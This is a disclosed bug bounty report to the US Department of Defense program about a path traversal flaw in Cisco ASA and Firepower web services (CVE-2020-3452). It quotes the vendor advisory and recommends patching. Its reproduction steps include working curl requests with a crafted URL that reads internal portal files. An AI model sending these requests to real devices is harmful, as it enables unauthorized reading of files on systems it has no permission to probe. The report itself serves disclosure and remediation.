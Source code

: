 # Path traversal on https://███ allows arbitrary file read (CVE-2020-3452)

## Report Details
- **Report ID**: 936399
- **URL**: https://hackerone.com/reports/936399
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-23T02:16:08.239Z
- **Disclosed**: 2020-08-13T18:09:37.101Z

## Reporter
- **Username**: un4gi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
According to Cisco:

A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

The vulnerability is due to a lack of proper input validation of URLs in HTTP requests processed by an affected device. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device.

The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

An advisory can be found at the following link: https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

## Step-by-step Reproduction Instructions

1. In bash, use `curl -k "https://███████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"` to prove you can read internal files such as the /+CSCOE+/portal_inc.lua file.
2. Various internal files can be read, and some require using the --output command to output the binary data to a file as shown below:

```
curl -k "https://█████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/session.js&default-language&lang=../" --output session.js
```

## Suggested Mitigation/Remediation Actions
Update the software to the latest version via the Cisco advisory linked above.

## Impact

A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device.

The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Attachments
No attachments
